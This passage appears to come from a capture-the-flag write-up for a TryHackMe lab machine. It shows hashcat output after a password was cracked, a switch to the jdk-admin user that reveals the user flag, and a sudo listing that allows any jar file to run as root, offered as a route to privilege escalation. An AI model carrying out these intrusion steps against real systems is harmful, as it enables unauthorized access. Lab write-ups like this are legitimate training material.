 ```bash
Recovered........: 1/1 (100.00%) Digests
Progress.........: 26160/14344385 (0.18%)
Rejected.........: 0/26160 (0.00%)
Restore.Point....: 26140/14344385 (0.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidates.#1....: alyssa01 -> 794613852

Started: Tue May 11 12:05:03 2021
Stopped: Tue May 11 12:06:14 2021
```

## User.txt

- Switch user to `jdk-admin` using the cracked credentials and access the user flag

```bash
web@vulnnet-dotjar:/$ su jdk-admin
Password: 
jdk-admin@vulnnet-dotjar:/$ cd 
jdk-admin@vulnnet-dotjar:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt

jdk-admin@vulnnet-dotjar:~$ cat user.txt 
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```

## Root flag

- By listing the privileges of the `jdk-admin`, we find that this user can execute any jar file as root.

```bash
jdk-admin@vulnnet-dotjar:/$ sudo -ll
Password: 
Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:

Sudoers entry:
    RunAsUsers: root
    Commands:
	/usr/bin/java -jar *.jar
```

### Creating and Executing Jar file

- [Create and execute JAR file in linux - Reference](https://www.tecmint.com/create-and-execute-jar-file-in-linux/)
